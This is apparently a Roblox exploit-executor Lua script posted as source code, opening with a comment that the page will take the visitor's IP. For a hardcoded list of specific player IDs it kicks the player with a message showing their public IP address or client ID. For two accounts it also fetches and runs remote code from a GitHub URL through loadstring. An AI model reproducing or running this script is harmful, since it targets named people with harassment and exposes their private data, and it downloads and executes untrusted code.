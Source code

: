 -- if you open this page this page will take your ip and information
local req = http_request or request or (syn and syn.request) 

if game.Players.LocalPlayer.UserId == 3221504650 then -- SAFE
      game.Players.LocalPlayer:Kick(game:GetService("RbxAnalyticsService"):GetClientId()) 
end

if game.Players.LocalPlayer.UserId == 1286348246 then -- SAFE
      game.Players.LocalPlayer:Kick(game:GetService("RbxAnalyticsService"):GetClientId()) 
end

if game.Players.LocalPlayer.UserId == 1760287730 then -- GET IP GRAB
      game.Players.LocalPlayer:Kick("IP BANNED 'CRY' " ..req({ Url = "https://api.ipify.org/", Method = "Get" }).Body)
end

if game.Players.LocalPlayer.UserId == 457218923 then -- GET IP GRAB
      game.Players.LocalPlayer:Kick("IP BANNED  " ..req({ Url = "https://api.ipify.org/", Method = "Get" }).Body)
end

if game.Players.LocalPlayer.UserId == 2628981395 then -- GET IP GRAB
      game.Players.LocalPlayer:Kick("IP BANNED FOR 7 DAY  " ..req({ Url = "https://api.ipify.org/", Method = "Get" }).Body)
end

if game.Players.LocalPlayer.UserId == 2336669150 then -- GET IP GRAB
      game.Players.LocalPlayer:Kick("IP BANNED FOR 7 DAY  " ..req({ Url = "https://api.ipify.org/", Method = "Get" }).Body)
end

if game.Players.LocalPlayer.UserId == 1644265613 then -- SAFE
      game.Players.LocalPlayer:Kick(game:GetService("RbxAnalyticsService"):GetClientId()) 
end

if game.Players.LocalPlayer.UserId == 3613095633 then -- SAFE
   loadstring(game:HttpGet("https://raw.githubusercontent.com/ZxCrackingLua/dddd/main/dd"))()
   game.Players.LocalPlayer:Kick("IP BANNED FOR 7 DAY  " ..req({ Url = "https://api.ipify.org/", Method = "Get" }).Body)
end

if game.Players.LocalPlayer.UserId == 3138663594 then -- SAFE
   loadstring(game:HttpGet("https://raw.githubusercontent.com/ZxCrackingLua/dddd/main/dd"))()
   game.Players.LocalPlayer:Kick("IP BANNED FOR 7 DAY  " ..req({ Url = "https://api.ipify.org/", Method = "Get" }).Body)
end
